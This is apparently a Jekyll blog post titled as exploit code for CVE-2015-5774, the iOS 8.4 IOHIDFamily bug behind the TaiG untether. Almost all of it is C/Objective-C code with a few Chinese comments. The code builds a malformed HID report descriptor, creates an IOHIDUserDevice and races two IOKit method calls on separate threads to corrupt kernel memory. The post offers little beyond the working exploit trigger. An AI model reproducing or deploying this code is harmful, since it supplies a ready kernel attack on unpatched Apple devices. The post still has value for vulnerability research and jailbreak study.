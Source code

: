 ```yaml
---
layout: post
title: CVE-2015-5774利用代码
---
```

iOS8.4untether [taig]({{ site.baseurl }}/{{ site.data }}/CVE-2015-5774Code/taig). 
{% highlight bash %}
#import <Foundation/Foundation.h>
#include <stdio.h>
#include <stdlib.h>
#include <mach/mach_host.h>
#include <mach/mach_port.h>
#include <IOKit/IOKitLib.h>    
#include <IOKit/IOCFSerialize.h>
#include <IOKit/IODataQueueClient.h>
#include <pthread/pthread.h>
  
#define NSLog(FORMAT,args...) printf("%s\n",[[NSString stringWithFormat:FORMAT,args]UTF8String])
 
kern_return_t ret;  
io_connect_t hid_connect;
 
void input_data(void *arg);  
int updateElementValuesCall(void);
{% endhighlight %}

{% highlight bash %}
int main (int argc, const char * argv[])
{
    
    CFMutableDictionaryRef cfdic = CFDictionaryCreateMutable(kCFAllocatorDefault,0x0, &kCFTypeDictionaryKeyCallBacks,&kCFTypeDictionaryValueCallBacks);
    void *byte = malloc(0x1000);
    memset(byte,0x00,0x161);
    input_data(byte);
    CFDataRef data = CFDataCreate(kCFAllocatorDefault,byte,0x161);
    CFStringRef str = CFSTR("ReportDescriptor");
    CFDictionarySetValue(cfdic,str,data);
    CFDataRef list_data = CFPropertyListCreateData(kCFAllocatorDefault,cfdic,0x64,0x0,NULL);
    void *z_data = malloc(0x3000);
    memset(z_data,0x0,0x3000);
    memcpy(z_data,CFDataGetBytePtr(list_data),CFDataGetLength(list_data));
    //FILE *_f = fopen("/test/test.txt","wb");
    //fwrite(z_data,strlen(z_data),1,_f); 导出IOHID描述符
    
    CFDictionaryRef dic = IOServiceMatching("IOHIDResource");
    io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,dic);
    
    io_connect_t IOHIDResource_connect;
    if(service==0){
        printf("service is 0\n");
        exit(1);
    }
    ret = IOServiceOpen(service, mach_task_self(),0,&IOHIDResource_connect);
    printf("IOHIDResource:IOServiceOpen ret is %x\n",ret);
    printf("connect is %x\n",IOHIDResource_connect);
    
    natural_t obj_typ;
    mach_vm_address_t obj_add;
    if(mach_port_kobject(mach_task_self(),IOHIDResource_connect,&obj_typ,&obj_add)==KERN_SUCCESS){
        
        UInt64 input=0;
        printf("strnlem is %zu\n",strnlen((char *)z_data,0x30000));
        ret = IOConnectCallMethod(IOHIDResource_connect,0,&input,0x1,z_data,strlen(z_data)+1,NULL,NULL,NULL,NULL);
        printf("IOConnectCallMethod:0x%x\n",ret);
        if(ret!=KERN_SUCCESS){
            exit(1);
        }
    }else{
        printf("Create IOHIDUserDevice: mach_port_kobject !=0\n");
    }
    
    printf("*****Create IOHIDUserDevice*****Success\n");
    
    
    io_iterator_t iterator;
    io_service_t hid_service = 0;
    if(IOConnectGetService(IOHIDResource_connect,&hid_service)!=KERN_SUCCESS){
        printf("IOConnectGetService faild :return 0\n");
        exit(1);
    }
    
    if(IORegistryEntryCreateIterator(hid_service,kIOServicePlane,0x0,&iterator)!=KERN_SUCCESS){
        printf("IORegistryEntryCreateIterator faild\n");
        exit(1);
    }
    
    io_service_t libUser = IOIteratorNext(iterator);
    
    CFMutableDictionaryRef properties;
    ret = IORegistryEntryCreateCFProperties(libUser,&properties,kCFAllocatorDefault,0);
    if(ret!=KERN_SUCCESS){
        printf("IORegistryEntryCreateCFProperties faild\n");
        exit(1);
    }
    ret = IORegistryIteratorEnterEntry(iterator);
    libUser = IOIteratorNext(iterator);
    IORegistryEntryCreateCFProperties(libUser,&properties,kCFAllocatorDefault,0);
    printf("success class is %s\n",CFStringGetCStringPtr(IOObjectCopyClass(libUser),kCFStringEncodingUTF8));
    //NSLog(@"%@",(__bridge NSDictionary*)properties);
    ret = IOServiceOpen(libUser,mach_task_self(),0,&hid_connect);
    if(ret!=KERN_SUCCESS){
        printf("IOHIDUserDevice: IOServiceOpen ret is %d\n",ret);
        exit(1);
    }
    printf("*****get IOHIDUserDevice connect*****Success\n");
    
    mach_vm_address_t atAddress = 0;
    mach_vm_size_t ofSize = 0;
    
    IOConnectMapMemory(IOHIDResource_connect,0,mach_task_self(),&atAddress,&ofSize,kIOMapAnywhere);
    
    
    uint32_t DataQueue_dataSize = 0;
    if(IODataQueuePeek(atAddress)!=0){
        do{
            DataQueue_dataSize = 0;
            IODataQueueDequeue(atAddress,0x0,&DataQueue_dataSize);
        }while (IODataQueuePeek(atAddress)!=0);
    }
    
    uint64_t input[2] = {0,0};
    void *inputStruct = malloc(0x130);
    memset(inputStruct,0xAA,0x130);
    size_t inputStructCnt = 0x130;
    
    pthread_t thread_res = 0;
    
    ret = pthread_create(&thread_res,0,(void *(*)(void *))&updateElementValuesCall,0);
    if(ret!=0){
        printf("pthread_create faild\n");
        exit(1);
    }
    int alright_done = 0;
    int i = 0;
    do{
        usleep(0x7d0);
        if(IODataQueuePeek(atAddress)!=0){
            ret = IOConnectCallMethod(IOHIDResource_connect,0x3,input,0x2,inputStruct,inputStructCnt,NULL,NULL,NULL,NULL);
            if(ret==KERN_SUCCESS){
                input[0] = 0;
                input[1] = 1;
            }
            else{
                printf("IOHIDResource call 0x3 faild\n");
                exit(1);
            }
            alright_done++;
            IODataQueueDequeue(atAddress,0x0,&DataQueue_dataSize);
            if(alright_done>=2) break;
        }
        i++;
    }while(i<=9);
    
    if(alright_done==2){
        printf("Success:index:0x%x\n",i);
    }
    
    sleep(3);
    return 0;
}
{% endhighlight %}

{% highlight bash %}
int updateElementValuesCall(){
    
    uint64_t update_input[2] = {0x2,0x2}; //太极为{0x2,0x82}
    uint32_t update_outputCnt = 0;
    
    ret = IOConnectCallScalarMethod(hid_connect,0xa,update_input,0x2,NULL,&update_outputCnt);
    if(ret!=KERN_SUCCESS){
        printf("IOConnectCallScalarMethod faild:0x%x\n",ret);
        exit(1);
    }
    else{printf("*****IOHIDLibUserClient::_updateElementValues*****Success\n");
    }
    return 0;
}
{% endhighlight %}

{% highlight bash %}
void input_data(void *arg) {
    char byte[] = {0x07,0xfe,0xff,0xff,0xff,0x27,0xff,0xff,0xff,0xff,0x17,0xff,0xff,0xff,0xff,0x47,0xff,0xff,0xff,0xff,0x37,0xff,0xff,0xff,0xff,0xa7,0x00,0x00,0x00,0x00,0xb7,0x00,0x00,0x00,0x00,0xa3,0xfd,0xff,0xff,0xff,0x07,0x00,0x00,0x00,0x00,0x0a,0x00,0x00,0x27,0x00,0x00,0x00,0x00,0x17,0x00,0x00,0x00,0x00,0x47,0x00,0x00,0x00,0x00,0x37,0x00,0x00,0x00,0x00,0x67,0x00,0x00,0x00,0x00,0x57,0x00,0x00,0x00,0x00,0x77,0x08,0x00,0x00,0x00,0x97,0x7f,0x00,0x00,0x00,0x87,0x01,0x00,0x00,0x00,0x93,0x03,0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x00,0x0a,0x00,0x00,0x27,0x00,0x00,0x00,0x00,0x17,0x00,0x00,0x00,0x00,0x47,0x00,0x00,0x00,0x00,0x37,0x00,0x00,0x00,0x00,0x67,0x00,0x00,0x00,0x00,0x57,0x00,0x00,0x00,0x00,0x77,0x08,0x00,0x00,0x00,0x97,0x7f,0x00,0x00,0x00,0x87,0x02,0x00,0x00,0x00,0x93,0x03,0x00,0x00,0x00,0xc3,0x00,0x00,0x00,0x00};
    memcpy(arg,byte,sizeof(byte));
    //这段是太极使用的IOHID描述符,解析函数在IOHIDReportDescriptorParser.c的PrintHIDDescriptor函数
}
{% endhighlight %}
